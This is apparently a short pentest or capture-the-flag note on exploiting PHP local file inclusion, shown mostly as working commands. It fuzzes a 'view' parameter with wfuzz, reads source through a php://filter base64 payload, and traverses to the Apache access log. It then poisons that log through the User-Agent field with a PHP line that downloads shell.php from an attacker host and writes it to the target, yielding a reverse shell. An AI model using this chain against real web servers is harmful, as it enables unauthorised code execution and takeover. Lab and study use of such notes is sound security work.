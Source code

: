 - Linux File Inclussion
	- Check the `url` adding parameter `file`

![](./img/Pasted%20image%2020240213235821.png)

---

- FUZZ it using this command:
	- [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```

---

- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index
```

- Check out the &ext variable and put it empty because it won't get the file extension

---

- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```

---

- Exploit the User-Agent Field:
	- First create a shell like the PentestMonkey one
	- Create a python server
	- Load the petition (like log file contamination petition) and capture it with BurpSuite
	- Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

---